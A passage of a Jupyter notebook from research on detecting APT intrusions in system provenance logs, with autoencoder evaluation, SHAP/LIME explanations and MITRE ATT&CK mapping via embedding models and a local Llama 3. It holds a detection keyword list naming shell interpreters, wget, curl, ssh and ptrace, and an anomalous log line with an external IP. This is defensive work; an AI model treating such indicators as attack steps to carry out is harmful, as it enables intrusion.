            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for SFR_MISTRAL on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.0608 | PR-AUC: 0.0239
    -> Sparse Done! F1: 0.0769 | PR-AUC: 0.0221
    -> Deep SVDD Done! F1: 0.1667 | PR-AUC: 0.0722
    -> DAE Done! F1: 0.056 | PR-AUC: 0.0213
    -> VAE Done! F1: 0.0201 | PR-AUC: 0.0068
    -> Beta-VAE Done! F1: 0.0265 | PR-AUC: 0.0085
    -> GMVAE Done! F1: 0.08 | PR-AUC: 0.0236
    -> Attention AE Done! F1: 0.0606 | PR-AUC: 0.0204
    -> LSTMAE Done! F1: 0.0571 | PR-AUC: 0.0227
    -> Robust Done! F1: 0.0618 | PR-AUC: 0.0251
    -> Contractive Done! F1: 0.0625 | PR-AUC: 0.0202

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0667 | PR-AUC: 0.0229
    -> Sparse Done! F1: 0.0833 | PR-AUC: 0.0258
    -> Deep SVDD Done! F1: 0.069 | PR-AUC: 0.0084
    -> DAE Done! F1: 0.0833 | PR-AUC: 0.0258
    -> VAE Done! F1: 0.0417 | PR-AUC: 0.0114
    -> Beta-VAE Done! F1: 0.0173 | PR-AUC: 0.0

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.59 | PR-AUC: 0.5504
    -> Sparse Done! F1: 0.024 | PR-AUC: 0.0075
    -> Deep SVDD Done! F1: 0.0036 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.2867 | PR-AUC: 0.1072
    -> VAE Done! F1: 0.0161 | PR-AUC: 0.0058
    -> Beta-VAE Done! F1: 0.0155 | PR-AUC: 0.0054
    -> GMVAE Done! F1: 0.0244 | PR-AUC: 0.0074
    -> Attention AE Done! F1: 0.0167 | PR-AUC: 0.0057
    -> LSTMAE Done! F1: 0.5193 | PR-AUC: 0.4243
    -> Robust Done! F1: 0.6612 | PR-AUC: 0.6277
    -> Contractive Done! F1: 0.0232 | PR-AUC: 0.0064

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7895 | PR-AUC: 0.751
    -> Sparse Done! F1: 0.0955 | PR-AUC: 0.022
    -> Deep SVDD Done! F1: 0.2435 | PR-AUC: 0.1329
    -> DAE Done! F1: 0.34 | PR-AUC: 0.1192
    -> VAE Done! F1: 0.007 | PR-AUC: 0.0028
    -> Beta-VAE Done! F1: 0.0081 

#### XAI integration and MITRE ATT&CK mapping 

In [2]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ SURVIVAL HOTFIXES
# ==========================================
# 1. Intercept the illegal 4-bit .to() call
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

# 2. Patch missing Mistral cache methods
if hasattr(cache_utils, "DynamicCache"):
    if not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
        @classmethod
        def from_legacy_cache(cls, past_key_values=None):
            cache = cls()
            if past_key_values is not None:
                for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                    cache.update(key_states, value_states, layer_idx)
            return cache
        cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

    if not hasattr(cache_utils.DynamicCache, "get_usable_length"):
        def get_usable_length(self, new_seq_length, layer_idx=0):
            return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
        cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [SFR-MISTRAL UPDATE] 
EMBEDDER_NAME = "Salesforce/SFR-Embedding-Mistral" 
INPUT_DIM = 4096  # CRITICAL: Mistral-7B uses massive 4096-dimensional vectors!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} with 4-bit Quantization...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        # [CRITICAL LLM FIX]: Decoder models MUST use left padding for last-token extraction
        self.tokenizer.padding_side = 'left'
        if self.tokenizer.pad_token is None:
            self.tokenizer.pad_token = self.tokenizer.eos_token 

        # Forces the 7B model to 4.5GB VRAM footprint
        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map={"": self.device} 
        )
        
        # [THE SURGICAL CPU-TO-GPU FIX]
        # Hunt down the 'rotary_emb' math components that Hugging Face
        # leaves stranded on the CPU, and force them to the GPU.
        for module in self.embedder.modules():
            if hasattr(module, 'rotary_emb'):
                module.rotary_emb.to(self.device)
            if hasattr(module, 'inv_freq'):
                module.inv_freq = module.inv_freq.to(self.device)
                
        # Catch any other stranded parameters/buffers
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # [SFR-MISTRAL FORMATTING]: Appending EOS token guarantees the last token holds the sentence representation
        formatted_texts = [f"{text}{self.tokenizer.eos_token}" for text in text_list]

        # Strict micro-batching for 7B parameters
        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(formatted_texts), batch_size):
            batch_texts = formatted_texts[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # Prevent token_type_ids indexing errors
            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [SFR-MISTRAL POOLING]: Extract the last token
                    embeddings = outputs.last_hidden_state[:, -1, :] 
                    
                    # Normalize embeddings (Standard practice for SFR-Mistral)
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    # Cast back to fp32 to match the AE weights
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your SFR-Mistral training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_sfr_mistral", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter to reveal all important drivers
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # [THE FIX]: Sort by absolute impact to catch strongest drivers regardless of sign
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter here too
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_sfr_mistral\theia_ProcessAll_Baseline.pth
Loading Salesforce/SFR-Embedding-Mistral with 4-bit Quantization...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Loading checkpoint shards: 100%|██████████| 3/3 [00:17<00:00,  5.80s/it]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'mprotect' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'home' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.

Calculating SHAP 


SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'execut' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'able' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'process' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.
 -> 'has' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.


### 5. `linq-ai/linq-embed-mistral`

#### Embedding generation

In [ ]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel, PreTrainedModel, BitsAndBytesConfig

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'linq-ai/linq-embed-mistral'

# 4-bit quantization shrinks the model to ~4.5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8

# [SPEED FIX] Dropped from 2048 to 512. 
# This instantly doubles processing speed while retaining plenty 
# of context for critical log event data.
MAX_SEQ_LENGTH = 512

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch for legacy transformer version compatibility
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16, 
    bnb_4bit_use_double_quant=True,       
    bnb_4bit_quant_type="nf4"             
)

# Load Tokenizer 
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)

# [SAFETY FIX] Ensure the pad_token exists so batching doesn't crash
if tokenizer.pad_token is None:
    tokenizer.pad_token = tokenizer.eos_token

# Load Model with Flash Attention 2
model = AutoModel.from_pretrained(
    MODEL_NAME, 
    quantization_config=quant_config,
    device_map=device,
    attn_implementation="flash_attention_2"  # [SPEED FIX] Hardware acceleration
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: LAST TOKEN POOLING
# ==========================================
def last_token_pool(last_hidden_states, attention_mask):
    """
    Extracts the embedding from the last token.
    Required for Linq-Embed-Mistral (Decoder-only architecture).
    """
    left_padding = (attention_mask[:, -1].sum() == attention_mask.shape[0])
    
    if left_padding:
        return last_hidden_states[:, -1]
    else:
        sequence_lengths = attention_mask.sum(dim=1) - 1
        batch_size = last_hidden_states.shape[0]
        return last_hidden_states[torch.arange(batch_size, device=last_hidden_states.device), sequence_lengths]

def get_linq_embeddings(text_list, model, tokenizer, batch_size=1):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        raw_batch = text_list[i : i + batch_size]
        
        # [CRITICAL LOGIC FIX] 
        # Mistral-based models require the EOS token at the end of the sequence 
        # to properly pool the context into a single dense vector.
        batch_texts = [text + tokenizer.eos_token for text in raw_batch]
        
        # Tokenize with strict MAX_SEQ_LENGTH
        batch_dict = tokenizer(
            batch_texts, 
            max_length=MAX_SEQ_LENGTH, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # Pool: Extract embedding from the EOS token we just appended
            embeddings = last_token_pool(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            # Instantly move to CPU to free up VRAM
            all_embeddings.extend(embeddings.cpu().float().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_linq_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            # Drop the temporary length column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # [CRITICAL OOM FIX] Force flush the VRAM after every chunk
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_linq_mistral"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save Linq-Mistral chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_linq_mistral.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All Linq-Mistral data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

#### Train Test split

In [5]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your Linq-Mistral generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_linq_mistral" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_linq_mistral"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
